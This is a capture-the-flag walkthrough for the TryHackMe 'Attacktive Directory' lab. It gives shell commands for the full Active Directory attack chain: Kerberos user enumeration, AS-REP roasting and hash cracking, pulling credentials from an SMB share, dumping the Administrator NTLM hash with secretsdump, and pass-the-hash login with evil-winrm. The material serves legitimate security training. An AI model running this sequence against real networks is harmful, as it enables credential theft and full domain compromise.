# [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)

Set the victim's machine ip:

```shell
export MACHINE_IP=x.x.x.x
```

## Task 3 Enumeration Welcome to Attacktive Directory

**What is the NetBIOS-Domain Name of the machine?**

```shell
enum4linux $MACHINE_IP | grep "Got domain/workgroup name"
```

## Task 4 Enumeration Enumerating Users via Kerberos

**What notable account is discovered?**
**What is the other notable account is discovered?**

```shell
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

chmod +x kerbrute_linux_amd64
./kerbrute_linux_amd64 userenum -d spookysec.local --dc $MACHINE_IP userlist.txt
```

## Task 5 Exploitation Abusing Kerberos

**Which user account can you query a ticket from with no password?**

```shell
TICKET=$(python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip $MACHINE_IP THM-AD/svc-admin | grep krb5asrep)
```

**What is the user accounts password?**

```shell
echo $TICKET > hash.txt
hashcat -m 18200 hash.txt passwordlist.txt
```

## Task 6 Enumeration Back to the Basics

**How many remote shares is the server listing?**

```shell
smbclient -L //$MACHINE_IP -U THM-AD/svc-admin
```

**What is the content of the file?**

```shell
smbclient //$MACHINE_IP/backup -U THM-AD/svc-admin
smb: \> get backup_credentials.txt
smb: \> exit
cat backup_credentials.txt
```

**Decoding the contents of the file, what is the full contents?**

```shell
cat backup_credentials.txt | base64 -d
```

## Task 7 Domain Privilege Escalation Elevating Privileges within the Domain

**What is the Administrators NTLM hash?**

```shell
PASS=$(cat backup_credentials.txt | base64 -d | awk -F: '{print $2}')
python3.9 /opt/impacket/examples/secretsdump.py -target-ip $MACHINE_IP backup:$PASS@spookysec.local > hashes.txt
HASH=$(grep Administrator:500 hashes.txt | awk -F: '{print $4}')
echo $HASH
```

**Using a tool called Evil-WinRM what option will allow us to use a hash?**

```shell
evil-winrm -H $HASH -i $MACHINE_IP -u Administrator
```

## Task 8 Flag Submission

Use Evil-WinRM to get all the flags!
